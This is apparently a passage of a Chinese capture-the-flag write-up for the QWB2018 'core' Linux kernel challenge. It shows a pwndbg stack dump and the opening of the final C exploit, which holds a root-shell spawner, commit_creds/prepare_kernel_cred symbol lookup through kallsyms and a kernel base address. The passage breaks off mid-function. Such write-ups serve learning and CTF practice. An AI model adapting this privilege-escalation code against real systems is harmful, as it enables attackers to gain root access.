 ```bash
01:0008│      0xffffb0f3800dbe70 —▸ 0xffff8f25071b3840 ◂— add    qword ptr [r8], rax /* 0x81b6f000014b */
02:0010│      0xffffb0f3800dbe78 —▸ 0xffffffffa17dd6d1 ◂— 0xe824048948df8948
03:0018│      0xffffb0f3800dbe80 ◂— 0x889b
04:0020│      0xffffb0f3800dbe88 —▸ 0xffff8f2507680d00 ◂— 0
05:0028│      0xffffb0f3800dbe90 —▸ 0xffffffffa178ecfa ◂— 0x9e840ffffffdfd3d
06:0030│      0xffffb0f3800dbe98 —▸ 0xffffb0f3800dbe70 —▸ 0xffff8f25071b3840 ◂— add    qword ptr [r8], rax /* 0x81b6f000014b */
07:0038│      0xffffb0f3800dbea0 ◂— 0x10
Breakpoint core_read
pwndbg>
```

最终 exp
```C
QWB2018_core [master●●] cat exploit.c 
// gcc exploit.c -static -masm=intel -g -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell()
{
	if(!getuid())
	{
		system("/bin/sh");
	}
	else
	{
		puts("[*]spawn shell error!");
	}
	exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
/* 
 * give_to_player [master●●] check ./core.ko
   ./core.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=549436d
   [*] '/home/m4x/pwn_repo/QWB2018_core/give_to_player/core.ko'
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x0)
*/
size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

	if(kallsyms_fd < 0)
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
```